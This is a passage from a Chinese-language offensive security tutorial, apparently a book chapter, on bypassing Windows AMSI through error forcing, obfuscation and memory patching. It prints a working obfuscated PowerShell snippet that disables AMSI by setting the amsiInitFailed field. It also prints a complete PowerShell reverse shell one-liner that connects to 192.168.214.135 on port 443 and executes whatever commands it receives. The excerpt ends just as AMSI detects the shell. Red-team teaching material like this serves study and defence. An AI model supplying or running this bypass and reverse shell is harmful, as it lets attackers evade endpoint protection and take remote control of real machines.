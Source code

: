 我们将尝试使用三种不同的技术绕过 AMSI：错误强制、混淆和内存修补。如前所述，我将使用 SRV01 机器：

```
Get-WmiObject Win32_OperatingSystem | Select PSComputerName, Caption, Version | fl
PSComputerName : CASTELROCK
Caption        : Microsoft Windows Server 2019 Datacenter Evaluation
Version        : 10.0.17763
```

## 方法 1 – 错误强制

让我们首先看看错误强制代码和一些分割/串联的幻想：

```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

执行上述命令的结果如下面的截图所示：

![图 2.3 – 强制错误](img/B18964_02_03.jpg)

图 2.3 – 强制错误

## 方法 2 – 混淆

对于 AST 混淆，我们可以尝试使用 Nishang 框架[6]中的 `PowerShellTcpOneLine.ps1` 反向 Shell 回调，以及之前提到的 Invoke-Obfuscation 工具。我们将在另一台 Windows 计算机上使用 powercat[7] 在 443 端口上设置监听器。以下是原始的反向 Shell 代码：

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.214.135',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

当我们尝试运行时，AMSI 捕获了我们：
